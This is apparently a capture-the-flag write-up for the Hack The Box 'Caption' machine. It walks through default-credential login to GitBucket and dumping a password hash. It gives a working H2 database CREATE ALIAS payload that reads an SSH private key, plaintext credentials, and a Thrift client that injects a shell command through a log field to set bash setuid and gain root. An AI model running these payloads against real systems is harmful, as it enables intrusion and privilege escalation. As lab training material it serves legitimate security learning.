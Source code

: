 d1, Recon
port scan 
	22/tcp ssh
	80/tcp http `redirect to http://caption.htb`
	8080/tcp http-proxy
By enumerate the web-contents, we find something interesting:
for port 80, there is only the `Caption Portal Login` page, but we don't have any credit.
for port 8080, we find a path `/root` we can find its role in `GitBucket`, but we could not find anything from that.
![](images/Pasted%20image%2020240915034953.png)

Besides that ,we still don't have any credit to login.

So crazy, when I try to use the default credit `root:root`, we successfully login.
Then we can find two repositories `root/Logservice` and `root/Caption-Portal` and we need to enumerate all the configs and find some useful credit.

I guess there would be another sub-domain for the service `Logservice`.
Very sad, there is nothing useful.

From `User management`, we find the version 
```
|GITBUCKET_VERSION|4.40.0|
|GITBUCKET_HOME|/home/margo/.gitbucket|
|DATABASE_URL|jdbc:h2:/home/margo/.gitbucket/data;MVCC=true<br><br>GitBucket is using the embedded H2 database. It's recommended that you [configure GitBucket to use an external database](https://github.com/gitbucket/gitbucket/wiki/External-database-configuration) if you're running GitBucket in a production environment.|
```
And we find another interesting page `http://caption.htb:8080/admin/dbviewer`
We can check the database from this page.
```
|USER_NAME|MAIL_ADDRESS|PASSWORD|ADMINISTRATOR|URL|REGISTERED_DATE|UPDATED_DATE|LAST_LOGIN_DATE|IMAGE|GROUP_ACCOUNT|FULL_NAME|REMOVED|DESCRIPTION|
|---|---|---|---|---|---|---|---|---|---|---|---|---|
|root|root@caption.htb|$pbkdf2-sha256$100000$O5zdxA5m9ZtnSSMnUfXK4zw9j/8WgKxo9ItXxVIPw3s=$xUd/Zorr75r/yWR9IXkW7TJlLXuEH+3U1uMAm37cBMk=|true|http://caption.htb|2024-03-08 03:01:05.0|2024-03-08 04:16:07.215|2024-09-15 07:54:33.255|<NULL>|false|Administrator|false|clob1: 'Caption Networks'|


|gitbucket-core|4.40.0|
|gist|4.23.0|
|emoji|4.6.0|
|notifications|1.11.0|
|pages|1.10.0|
```

So I guess it would be our credit hash
`$pbkdf2-sha256$100000$O5zdxA5m9ZtnSSMnUfXK4zw9j/8WgKxo9ItXxVIPw3s=$xUd/Zorr75r/yWR9IXkW7TJlLXuEH+3U1uMAm37cBMk=`
Or it would be just `root:root`

But come to the `DATABASE_URL`, we find h2 database.This kind of database would be always exploited easily by sql injections.

Then we can create the valid payload to help us to RCE
(Good resource: `https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database/') 

```
CREATE ALIAS REVEXEC AS $$ 
String shellexec(String cmd) throws java.io.IOException { 
    java.util.Scanner s = new java.util.Scanner(
        Runtime.getRuntime().exec(cmd).getInputStream()
    ).useDelimiter("\\A"); 
    return s.hasNext() ? s.next() : ""; 
} 
$$;

CALL REVEXEC('cat /home/margo/.ssh/id_ecdsa ');

Then we can get our id_rsa (ssh credit).
```

2, shell as root
Firstly we need to check the net state(verify the applications in gitbucket)
```
netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      1310/java           
tcp        0      0 127.0.0.1:6082          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6081          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3923          0.0.0.0:*               LISTEN      1311/python3        
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      1312/python3        
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

`127.0.0.1:8000` is the `[Caption-Portal]` application
`127.0.0.1:9090` is the `[Logservice]` application

```
- func main() {
-     handler := &LogServiceHandler{}
-     processor := log_service.NewLogServiceProcessor(handler)
-     transport, err := thrift.NewTServerSocket(":9090")
-     if err != nil {
-         log.Fatalf("Error creating transport: %v", err)
-     }

-     server := thrift.NewTSimpleServer4(processor, transport, thrift.NewTTransportFactory(), thrift.NewTBinaryProtocolFactoryDefault())
-     log.Println("Starting the server...")
-     if err := server.Serve(); err != nil {
-         log.Fatalf("Error occurred while serving: %v", err)
-     }
- }
```

So if we want to check it, we need to Port forwarding
`ssh -i id_rsa margo@10.10.11.33 -L 9090:localhost:9090`

I forget this is a log analysis service, and don't have the web pages.

Let's continue checking the `app/app.py` and we found the credit of margo and admin
```
username == 'margo' and password == 'vFr&cS2#0!'
username == 'admin' and password == 'cFgjE@0%l0'
```
Although we use them to login to the service of port 80, but there is still nothing for us and we can not check `sudo -l` or switch to another user `ruth`

The way to root is using thrift client and leverage the LogService rce:
(https://thrift.apache.org/tutorial/py.html)
Steps:
1.Setup port forwarding:
`ssh -i id_ecdsa -L 9090:127.0.0.1:9090 margo@caption.htb`

2.Now on the remote machine:
Create a file called: `/tmp/malicious.log`
Edit file to include: 
`127.0.0.1 "user-agent":"'; /bin/bash /tmp/payload.sh #"`

Create another file: `/tmp/payload.sh`
Edit file to include: `chmod +s /bin/bash`

3.Switch to local machine:
create a file called: `log_service.thrift`
Edit file to include:
```
namespace go log_service

service LogService {
    string ReadLogFile(1: string filePath)
}
```

Make sure thrift is installed and run: `thrift -r --gen py log_service.thrift`

`cd gen-py`
create file called: `client.py`

edit file with:

```
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # Import generated Thrift client code

def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)

    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)

    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the service
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    try:
        # Specify the log file path to process
        log_file_path = "/tmp/malicious.log"
       
        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)
   
    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")

    # Close the transport
    transport.close()

if __name__ == '__main__':
    main()
```

4.Root shell is then via `/bin/bash -p`.